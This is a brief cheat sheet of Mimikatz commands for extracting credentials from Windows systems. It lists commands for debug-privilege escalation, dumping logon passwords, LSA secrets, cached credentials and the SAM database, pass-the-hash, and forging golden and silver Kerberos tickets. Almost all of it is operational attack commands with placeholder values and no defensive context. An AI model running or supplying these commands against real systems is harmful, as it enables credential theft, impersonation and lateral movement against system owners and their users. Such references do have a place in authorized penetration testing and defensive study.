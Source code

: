  Mimikatz

 Overview
Mimikatz is a leading tool for extracting credentials from Windows systems.

 Key Commands

 Privilege Escalation
privilege::debug
token::elevate

 Dump Credentials
sekurlsa::logonpasswords
sekurlsa::wdigest
sekurlsa::kerberos
sekurlsa::tspkg

 LSA Secrets
lsadump::secrets
lsadump::cache

 SAM Database
lsadump::sam

 Pass-the-Hash
sekurlsa::pth /user:username /domain:domain /ntlm:hash /run:cmd.exe

 Golden Ticket
kerberos::golden /user:username /domain:domain /sid:S-1-5-21-... /krbtgt:hash /ticket:ticket.kirbi

 Silver Ticket
kerberos::golden /user:username /domain:domain /sid:S-1-5-21-... /target:target.domain /service:service /rc4:hash /ticket:ticket.kirbi

 Usage Methods

 Direct Execution

mimikatz.exe
mimikatz  privilege::debug
mimikatz  sekurlsa::logonpasswords